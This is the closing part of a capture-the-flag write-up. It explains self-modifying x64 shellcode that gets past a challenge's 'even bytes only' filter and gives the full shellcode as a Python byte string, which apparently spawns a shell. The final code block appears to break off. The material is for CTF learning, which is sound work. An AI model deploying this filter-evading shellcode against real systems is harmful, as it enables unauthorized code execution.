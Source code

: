 We can see that our little modification changed the `pop rsi` to `pop rdi`

Not too shabby for never coding in x64 before! It was a cute little chal, I'll give them that :)

## If I had more time, I would've written a shorter shellcode (TL;DR) <a name="tldr"></a>

The challenge binary runs the shellcode for us, but enforces that every byte is an even byte (0th bit is 0). I wrote new shell code based on an established shellcode to circumvent this restriction, eventually using shellcode self modification to get the syscall and other important instructions to be correct before running them. There exists a way to get the current address of the shellcode regardless of the binary, however, our shellcode was stored at a static location.

```py
shellcode = b'\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00\x5E\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0\x0E\x04
```
